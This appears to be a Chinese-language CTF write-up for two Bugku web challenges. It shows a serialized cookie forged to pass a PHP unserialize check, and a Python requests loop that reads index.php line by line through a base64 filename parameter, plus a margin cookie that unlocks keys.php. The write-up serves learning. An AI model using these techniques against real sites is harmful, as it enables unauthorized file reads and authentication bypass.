


# web

### 点login咋没反应

1. 登录页面访问，点击却没有反应，查看源代码，`POST`表单没有提交到后台，但是加载了`admin.css`

   

2. 这里访问一下`admin.css`，有`GET`提示

   

3. 这里根据提示进行访问，代码审计

   ```php
    <?php
   error_reporting(0);
   $KEY='ctf.bugku.com';
   include_once("flag.php");
   $cookie = $_COOKIE['BUGKU'];
   if(isset($_GET['21017'])){
       show_source(__FILE__);
   }
   //当接收到的cookie反序列化后的值等于$key则输出flag
   elseif (unserialize($cookie) === "$KEY")
   {   
       echo "$flag";
   }
   else {
   ?>
   <html>
   <head>
   <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
   <title>Login</title>
   <link rel="stylesheet" href="admin.css" type="text/css">
   </head>
   <body>
   <br>
   <div class="container" align="center">
     <form method="POST" action="#">
       <p><input name="user" type="text" placeholder="Username"></p>
       <p><input name="password" type="password" placeholder="Password"></p>
       <p><input value="Login" type="button"/></p>
     </form>
   </div>
   </body>
   </html>
   
   <?php
   }
   ?> 
   ```

4. 这里要反序列化构造`cookie`进行提交

   ```php
   #构造序列化cookie值
   <?php
   $cookie='ctf.bugku.com';
   echo(serialize($cookie));
   ?>
   
   #输出
   s:13:"ctf.bugku.com";
   ```

5. 我这里利用`postman`添加cookie头部和值提交

   

   
### cookies

   1. 这里访问靶机网页，发现一串未知字符，但是网页url应该是文件包含漏洞，base64解码后是`keys.txt`
   
      
   
   2. 这里试试能不能直接把`index.php`读取出来，先base64编码下`aW5kZXgucGhw`
   
      
   
   3. 这里前面有个`line`，应该是一行一行读的，写个`py`脚本，调用`requests`库，直接读吧
   
      ```python
      import requests
      for i in range(0,20):
          url="http://xxxxxxxxxx/index.php?line=%d&filename=aW5kZXgucGhw" % i
          response=requests.get(url=url).text
          # print(url+'<br>')
          # print(response)
          with open("index.php", "a+") as f:
              f.write(response)
      ```
   
   4. 这里打开提取出来`index.php`，代码审计下
   
      ```php
      <?php
      error_reporting(0);
      //判断接收到的文件名是否有值，有值就进行base64解码，没有值就赋值为空
      $file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
      //判断接收的行数，有值转换为整数，没值赋值为空
      $line=isset($_GET['line'])?intval($_GET['line']):0;
      //如果file变量为空，发送原始的 HTTP 报头
      if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
      
      //文件数组
      $file_list = array(
      '0' =>'keys.txt',
      '1' =>'index.php',
      );
       
      //检查是否接收有cookie值并且cookie值为margin
      if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
        //有的话，文件数组添加一个keys.php
      $file_list[2]='keys.php';
      }
       
      //如果文件变量在文件数组的话
      if(in_array($file, $file_list)){
        
        //将文件输出出来
      $fa = file($file);
      echo $fa[$line];
      }
      ?>
      ```
   
   5. 这里需要将`keys.php`进行base64编码，然后添加`cookie`值为`margin`，利用工具进行发送，拿到flag
   
      
   
      

